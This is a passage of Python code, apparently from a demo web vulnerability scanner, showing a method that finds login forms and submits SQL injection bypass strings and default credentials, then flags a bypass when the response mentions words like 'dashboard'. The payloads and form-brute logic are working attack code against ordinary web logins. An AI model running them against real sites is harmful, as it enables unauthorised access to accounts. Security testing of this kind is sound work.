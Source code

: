 ```python
                        continue
        
        print(f"  Tested SSRF vulnerabilities")
    
    def test_authentication_bypass(self):
        """Test for authentication bypass vulnerabilities"""
        print("\n[+] Testing authentication bypass...")
        
        # Authentication bypass payloads
        bypass_payloads = [
            {'username': 'admin', 'password': "' OR '1'='1"},
            {'username': "admin'--", 'password': 'anything'},
            {'username': 'admin', 'password': 'admin'},
            {'username': 'administrator', 'password': 'administrator'},
            {'username': '', 'password': ''},
            {'username': 'admin', 'password': ''},
        ]
        
        # Find login forms
        login_forms = [form for form in self.forms 
                      if any(field['name'] and 
                            any(keyword in field['name'].lower() 
                               for keyword in ['username', 'user', 'email', 'password', 'pass'])
                            for field in form['inputs'])]
        
        for form in login_forms[:2]:  # Limit for demo
            form_action = urljoin(self.target_url, form['action'])
            print(f"  Testing login form: {form_action}")
            
            for payload in bypass_payloads[:3]:  # Test first 3 payloads
                form_data = {}
                
                # Map payload to form fields
                for input_field in form['inputs']:
                    field_name = input_field['name']
                    if field_name:
                        if any(keyword in field_name.lower() 
                              for keyword in ['username', 'user', 'email']):
                            form_data[field_name] = payload.get('username', 'admin')
                        elif any(keyword in field_name.lower() 
                                for keyword in ['password', 'pass']):
                            form_data[field_name] = payload.get('password', 'admin')
                        else:
                            form_data[field_name] = input_field.get('value', '')
                
                try:
                    if form['method'] == 'POST':
                        response = self.session.post(form_action, data=form_data, timeout=10)
                    else:
                        response = self.session.get(form_action, params=form_data, timeout=10)
                    
                    # Check for successful authentication indicators
                    success_indicators = [
                        'dashboard', 'welcome', 'logout', 'profile',
                        'admin panel', 'administration', 'settings'
                    ]
                    
                    response_lower = response.text.lower()
                    if any(indicator in response_lower for indicator in success_indicators):
                        vuln_info = f"Authentication bypass at {form_action}"
                        self.vulnerabilities.append(vuln_info)
                        print(f"  [!] {vuln_info}")
                        break
```